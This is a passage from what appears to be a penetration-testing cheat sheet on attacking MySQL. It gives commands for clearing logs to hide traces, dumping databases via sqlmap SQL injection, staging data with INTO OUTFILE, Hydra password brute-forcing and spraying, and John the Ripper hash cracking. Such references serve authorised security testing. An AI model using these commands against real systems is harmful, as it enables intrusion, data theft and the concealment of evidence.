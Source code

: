 *   **Tool:** \[\[MySQL]]

    ```sql
    FLUSH LOGS;
    ```
* **Description:** Clears MySQL logs to erase traces of malicious activities.

### Data Exfiltration

#### Data Dump via SQL Injection

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable.php?id=1" --dbms=mysql --dump
    ```
* **Description:** Extracts large volumes of data from the MySQL database by exploiting SQL injection.

#### Exfiltration via Custom Queries

*   **Tool:** \[\[MySQL]]

    ```sql
    SELECT * FROM sensitive_data INTO OUTFILE '/tmp/data.txt';
    ```
* **Description:** Dumps sensitive data to a file on the server, which can then be exfiltrated.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra mysql://<target_ip> -s 3306 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra mysql://<target_ip> -s 3306 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

#### Offline Hash Cracking

*   **Tool:** \[\[John the Ripper Cheat Sheet]]

    ```bash
    john --wordlist=<path/to/wordlist> <hash_file>
    ```
